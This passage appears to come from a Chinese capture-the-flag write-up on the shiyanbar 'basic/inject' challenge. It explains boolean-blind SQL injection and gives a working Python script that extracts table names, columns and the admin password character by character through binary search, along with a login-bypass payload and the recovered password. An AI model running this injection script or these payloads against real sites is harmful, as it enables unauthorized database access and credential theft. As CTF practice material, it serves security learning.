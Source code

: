 那么就可以根据现在的内容来进行布尔盲注
因为`admin' and 1=1 %23`的情况下显示帐号密码错误
而`admin' and 1=2 %23`的情况下现实数据库连接失败！

最后构建脚本跑出密码
```python
# coding=utf-8
import re
import requests

url = 'http://ctf5.shiyanbar.com/basic/inject/index.php'
result = ''

for i in range(1, 100):
    high = 126
    low = 32
    mid = (high + low) >> 1
    while high != mid:
        # payload = "admin=admin' and (Select ascii(mid(group_concat(table_name),{0},1)) from information_schema.tables where table_schema=database())>{1}    %23"
        # payload = "admin=admin' and (Select ascii(mid(group_concat(column_name),{0},1)) from information_schema.columns where table_name='admin')>{1}    %23"
        payload = "admin=admin' and (Select ascii(mid(group_concat(password),{0},1)) from admin)>{1}    %23"
        # idnuenna
        # payload = "admin=admin' and (Select ascii(mid(database(),{0},1)))>{1}    %23"
        payload = payload.format(i, mid)
        payload += "&pass=1&action=login"
        # print(payload)
        res = requests.get(url, params=payload)
        res.encoding = 'gb2312'
        data = res.text
        # print(data)
        data = re.findall(r'登录失败', data)
        # print(data)
        if data:
            # success
            low = mid + 1
        else:
            # fail
            high = mid
        mid = (high + low) >> 1
    result += chr(mid)
    print(result)
```

但是这边我还有一个疑问点，就是表中只存在一个用户，但是我账户利用SQL注入来绕过
密码是正确的，但无法成功?
`?admin=123' or '1&pass=idnuenna&action=login`


<br>
